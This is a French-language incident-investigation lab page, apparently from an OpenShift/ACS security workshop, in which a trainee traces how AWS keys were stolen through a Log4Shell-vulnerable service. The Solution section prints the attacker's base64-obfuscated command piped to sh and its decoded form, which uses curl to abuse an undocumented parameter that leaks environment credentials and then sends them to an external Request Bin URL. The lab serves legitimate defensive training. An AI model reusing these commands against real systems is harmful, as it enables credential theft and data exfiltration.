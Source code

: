 ```yaml
---
title: "Attack Flow Analysis"
draft: false
weight: 3
---
```


Nous sommes le 19 décembre 2021 (oui, vous avez bien lu, deux ans plus tôt, jour pour jour).

L'équipe cloud AWS vous averti qu'une clé d'API AWS a été compromise et a servi à déployer des logiciels de crypto mining.
Fort heureusement, votre société interdit la réutilisation des clés d'API pour plusieurs usages : vous êtes donc certain de l'origine de cette fuite de donnée : c'est l'application **visa-processor** qui exploite cette clé d'API.

```
$ oc rsh -n data-theft deploy/visa-processor /bin/sh -c 'env' | sort | grep ^A  
APP_ID=visa-processor
APP_ROOT=/opt/app-root
AWS_ACCESS_KEY_ID=Easy, peasy!
AWS_SECRET_ACCESS_KEY=Catch me if you can!
```

**Note** : les clés d'API AWS ont été caviardées dans le lab pour éviter une crise cardiaque inutile aux équipes sécurité **Red Hat**. Elles ont été remplacées par deux messages humoristiques. :)

Dans le même temps, l'équipe réseau vous averti de la présence d'un flux sortant inhabituel à destination de serveurs eux aussi hébergés sur AWS.

```
$ dig +short public.requestbin.com   
54.192.137.16
54.192.137.101
54.192.137.26
54.192.137.85
```

```
$ whois 18.155.129.83 |grep OrgTechName 
OrgTechName:   Amazon EC2 Network Operations
```

Votre mission, si vous l'acceptez, est d'investiguer l'environnement du Lab à la recherche du chemin parcouru par l'attaquant pour perpétrer cette exfiltration de données.
L'objectif est atteint quand vous trouvez l'URL du **Request Bin** utilisé par l'attaquant pour exfiltrer la clé d'API.

![Request Bin montrant la clé d'API AWS exfiltrée](/images/Attack-Flow-Analysis-Request-Bin.png)

À vous de jouer !

Indices :

- Commencez par la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`
- Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**. Cliquez sur les déploiements **information-service** et **back-office** et comparez leur flux. Lequel vous semble le plus suspicieux ?
- Retournez dans la section **Violations** et filtrez la vue avec le nom du déploiement qui vous semble le plus suspicieux.

{{%expand "Solution" %}}

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:visa-processor namespace:data-theft`.

![visa-processor violations](/images/Attack-Flow-Analysis-visa-processor-violations.png)

On note bien la présence de CVE mais rien de très suspicieux.

Basculez sur la section **Network Graph** et affichez les flux du cluster **local-cluster**, namespace **data-theft**.

Cliquez sur le déploiement **back-office**.

![back-office network graph](/images/Attack-Flow-Analysis-back-office-network-graph.png)

Les flux observés semblent légitimes.

Cliquez sur le déploiement **information-service**.

![information-service network graph](/images/Attack-Flow-Analysis-information-service-network-graph.png)

Observez le flux entrant depuis le router OpenShift et le flux sortant vers AWS.
Notez également que le déploiement **information-service** communique avec le déploiement **visa-processor**.

Naviguez dans la section **Violations** et filtrez la vue avec `deployment:information-service namespace:data-theft`.

![information-services violations](/images/Attack-Flow-Analysis-information-service-violations.png)

Notez la présence de la vulnérabilité **Log4Shell** ainsi que d'un comportement suspect au runtime: **Shell Spawned by Java Application**.

Cliquez sur la violation **Shell spawned by Java Application**.

![information-services violation Shell Spawned by Java Application](/images/Attack-Flow-Analysis-information-service-violation-shell-spawned.png)

Observez la commande exécutée :

```
echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d | sh
```

Décodez le contenu encodé en base64 (utilisez la commande "base64 -d") :

```
$ echo Y3VybCAtc2sgLWQgJ3tcIm51bWJlck9mSWRlbnRpdGllc1wiOjR9JyBodHRwOi8vdmlzYS1wcm9jZXNzb3IuZGF0YS10aGVmdC5zdmM6ODA4MC9nZXRBcHBsaWNhdGlvbklkZW50aXR5IHwgY3VybCAtc2sgLS1kYXRhLWJpbmFyeSBALSAtSCAnQ29udGVudC1UeXBlOiB0ZXh0L3BsYWluJyBodHRwczovL2VueWQxcnczcHd6M2EueC5waXBlZHJlYW0ubmV0Cg== | base64 -d

curl -sk -d '{\"numberOfIdentities\":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity | curl -sk --data-binary @- -H 'Content-Type: text/plain' https://enyd1rw3pwz3a.x.pipedream.net
```

La première commande **curl** exploite un bug de l'application pour récupérer la clé d'API AWS.

En temps normal, le composant **visa-processor** retourne la valeur de sa variable d'environnement **APP_ID** :

```
$ curl -sk -X POST http://visa-processor.data-theft.svc:8080/getApplicationIdentity
{
    "APP_ID": "visa-processor"
}
```

Mais en passant un argument supplémentaire non documenté, on peux récupérer les variables d'environnement qui suivent (par ordre alphabétique) :

```
$ curl -sk -d '{"numberOfIdentities":4}' http://visa-processor.data-theft.svc:8080/getApplicationIdentity

{
    "APP_ID": "visa-processor",
    "APP_ROOT": "/opt/app-root",
    "AWS_ACCESS_KEY_ID": "Easy, peasy!",
    "AWS_SECRET_ACCESS_KEY": "Catch me if you can!"
}
```

La seconde commande **curl** exfiltre les données via le service **Request Bin**.
Connectez vous à [https://enyd1rw3pwz3a.x.pipedream.net](https://enyd1rw3pwz3a.x.pipedream.net) et confirmez que les données exfiltrées sont bien présentes.

{{% /expand%}}
